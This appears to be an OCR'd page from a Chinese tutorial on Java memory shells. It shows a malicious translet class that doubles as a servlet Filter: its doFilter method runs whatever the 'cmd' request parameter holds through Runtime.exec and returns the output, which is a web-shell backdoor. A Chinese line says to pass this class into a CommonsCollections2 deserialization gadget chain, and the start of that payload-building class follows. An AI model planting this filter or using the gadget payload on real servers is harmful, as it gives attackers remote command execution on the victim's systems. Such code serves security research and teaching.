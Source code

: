 ```bash
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("cmd") != null) {
            //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
            String[] cmds = {"cmd", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            byte[] bcache = new byte[1024];
            int readSize = 0;
            try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream()) {
                while ((readSize = in.read(bcache)) != -1) {
                    outputStream.write(bcache, 0, readSize);
                }
                response.getWriter().println(outputStream.toString());
            }
        }


    }

    @Override
    public void destroy() {
    }
    public static void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
        field.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
    }
}
```

将恶意类的 class 文件，传入 cc2 构造 payload

```bash
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cc2 {
```
